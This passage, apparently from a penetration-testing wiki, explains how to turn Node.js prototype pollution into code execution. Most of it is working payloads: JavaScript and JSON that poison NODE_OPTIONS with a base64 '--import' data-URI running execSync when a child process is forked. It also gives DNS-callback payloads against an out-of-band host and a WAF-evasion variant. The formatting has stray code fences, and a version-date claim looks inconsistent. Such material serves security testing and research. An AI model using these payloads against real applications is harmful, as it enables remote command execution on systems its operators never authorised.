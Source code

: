 ```

// Manual pollution
b = {}

// Javascript that is executed once Node parses the import URL
const js = "require('child_process').execSync('touch /tmp/pp2rce_import')";
const payload = `data:text/javascript;base64,${Buffer.from(js).toString('base64')};

b.__proto__.NODE_OPTIONS = `--import ${payload};
// any key that will force spawn (fork) – same as earlier examples
fork("./a_file.js");
```
```
Abusing the vulnerable merge/clone sink shown at the top of the page:

```javascript
USERINPUT = JSON.parse('{"__proto__":{"NODE_OPTIONS":"--import data:text/javascript;base64,cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKCd0b3VjaCBcL3RtcFwvcHAycmNlX2ltcG9ydCcp"}}');
clone(USERINPUT);

// Gadget trigger
fork("./a_file.js");
// → creates /tmp/pp2rce_import
```
```
### Why `--import` helps
1. **No disk interaction** – the payload travels entirely inside the process command line and environment.
2. **Works with ESM-only environments** – `--import` is the canonical way to preload JavaScript in modern Node releases that default to ECMAScript Modules.
3. **Bypasses some `--require` allow-lists** – a few hardening libraries only filter `--require`, leaving `--import` untouched.

> [!WARNING]
> `--import` support in `NODE_OPTIONS` is still present in the latest **Node 22.2.0** (June 2025).  The Node core team is discussing restricting data-URIs in the future, but no mitigation is available at the time of writing.

---

## DNS Interaction

Using the following payloads it's possible to abuse the NODE_OPTIONS env var we have discussed previously and detect if it worked with a DNS interaction:

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=id.oastify.com"
  }
}
```
```
Or, to avoid WAFs asking for the domain:

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=id\"\".oastify\"\".com"
  }
}
```